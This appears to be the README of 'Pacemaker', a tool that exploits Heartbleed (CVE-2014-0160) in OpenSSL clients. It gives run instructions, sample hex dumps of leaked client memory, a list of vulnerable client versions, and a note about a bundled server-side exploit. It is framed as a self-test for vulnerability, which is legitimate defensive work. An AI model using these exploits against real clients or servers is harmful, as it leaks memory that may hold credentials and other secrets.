 # Pacemaker
Attempts to abuse OpenSSL *clients* that are vulnerable to [Heartbleed][0]
([CVE-2014-0160][1]). Compatible with Python 2 and 3.

## Am I vulnerable?
Run the server:

    python pacemaker.py

In your client, open https://localhost:4433/ (replace the hostname if needed).
For example:

    curl https://localhost:4433/

The client will always fail to connect:

    curl: (35) Unknown SSL protocol error in connection to localhost:4433

If you are not vulnerable, the server outputs something like:

    Connection from: 127.0.0.1:40736
    Possibly not vulnerable

If you *are* vulnerable, you will see something like:

    Connection from: 127.0.0.1:40738
    Client returned 65535 (0xffff) bytes
    0000: 18 03 03 40 00 02 ff ff 2d 03 03 52 34 c6 6d 86  ...@....-..R4.m.
    0010: 8d e8 40 97 da ee 7e 21 c4 1d 2e 9f e9 60 5f 05  ..@...~!.....`_.
    0020: b0 ce af 7e b7 95 8c 33 42 3f d5 00 c0 30 00 00  ...~...3B?...0..
    0030: 05 00 0f 00 01 01 00 00 00 00 00 00 00 00 00 00  ................
    0040: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00  ................
    *
    4000: 00 00 00 00 00 18 03 03 40 00 00 00 00 00 00 00  ........@.......
    8000: 00 00 00 00 00 00 00 00 00 00 18 03 03 40 00 00  .............@..
    ...
    e440: 1d 2e 9f e9 60 5f 05 b0 ce af 7e b7 95 8c 33 42  ....`_....~...3B
    e450: 3f d5 00 c0 30 00 00 05 00 0f 00 01 01 00 00 00  ?...0...........
    fff0: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00     ...............


Subsequent lines full of NUL bytes are folded into one with an `*` thereafter
(like the `xxd` tool).

An example where more "interesting" memory gets leaked using
`wget -O /dev/null https://google.com https://localhost:4433`:

    Connection from: 127.0.0.1:41914
    Client returned 65535 (0xffff) bytes
    0000: 18 03 03 40 00 02 ff ff 2d 03 03 52 34 c6 6d 86  ...@....-..R4.m.
    0010: 8d e8 40 97 da ee 7e 21 c4 1d 2e 9f e9 60 5f 05  ..@...~!.....`_.
    0020: b0 ce af 7e b7 95 8c 33 42 3f d5 00 c0 30 00 00  ...~...3B?...0..
    0030: 05 00 0f 00 01 01 65 0d 0a 43 6f 6e 74 65 6e 74  ......e..Content
    0040: 2d 54 79 70 65 3a 20 74 65 78 74 2f 68 74 6d 6c  -Type: text/html
    0050: 3b 20 63 68 61 72 73 65 74 3d 55 54 46 2d 38 0d  ; charset=UTF-8.
    ...
    0b50: 01 05 05 07 02 01 16 2d 68 74 74 70 73 3a 2f 2f  .......-https://
    0b60: 77 77 77 2e 67 65 6f 74 72 75 73 74 2e 63 6f 6d  www.geotrust.com
    0b70: 2f 72 65 73 6f 75 72 63 65 73 2f 72 65 70 6f 73  /resources/repos
    0b80: 69 74 6f 72 79 30 0d 06 09 2a 86 48 86 f7 0d 01  itory0...*.H....
    0b90: 01 05 05 00 03 81 81 00 76 e1 12 6e 4e 4b 16 12  ........v..nNK..
    0ba0: 86 30 06 b2 81 08 cf f0 08 c7 c7 71 7e 66 ee c2  .0.........q~f..
    0bb0: ed d4 3b 1f ff f0 f0 c8 4e d6 43 38 b0 b9 30 7d  ..;.....N.C8..0}
    0bc0: 18 d0 55 83 a2 6a cb 36 11 9c e8 48 66 a3 6d 7f  ..U..j.6...Hf.m.
    0bd0: b8 13 d4 47 fe 8b 5a 5c 73 fc ae d9 1b 32 19 38  ...G..Z\s....2.8
    0be0: ab 97 34 14 aa 96 d2 eb a3 1c 14 08 49 b6 bb e5  ..4.........I...
    0bf0: 91 ef 83 36 eb 1d 56 6f ca da bc 73 63 90 e4 7f  ...6..Vo...sc...
    0c00: 7b 3e 22 cb 3d 07 ed 5f 38 74 9c e3 03 50 4e a1  {>".=.._8t...PN.
    0c10: af 98 ee 61 f2 84 3f 12 00 00 00 00 00 00 00 00  ...a..?.........
    0c20: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00  ................
    *
    4000: 00 00 00 00 00 18 03 03 40 00 00 00 00 00 00 00  ........@.......
    ...
    ffd0: 00 00 00 00 5c d3 3c 02 00 00 00 00 49 53 4f 36  ....\.<.....ISO6
    ffe0: 34 36 2d 53 45 2f 2f 00 53 45 4e 5f 38 35 30 32  46-SE//.SEN_8502
    fff0: 30 30 5f 42 2f 2f 00 00 00 00 00 00 00 00 00     00_B//.........

## Tested clients
The following clients have been tested against 1.0.1f and leaked memory before
the handshake:

 - MariaDB 5.5.36
 - wget 1.15 (leaks memory of earlier connections and own state)
 - curl 7.36.0
 - git 1.9.1 (tested clone / push, leaks not much)
 - nginx 1.4.7 (in proxy mode, leaks memory of previous requests)

# ssltest.py
This repository also contains a working version that targets servers. ssltest.py
was created by Jared Stafford (<jspenguin@jspenguin.org>), all due credits are
to him! It was retrieved from http://s3.jspenguin.org/ssltest.py.

At the moment, the script is only compatible with Python 2.

  [0]: http://heartbleed.com/
  [1]: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-0160
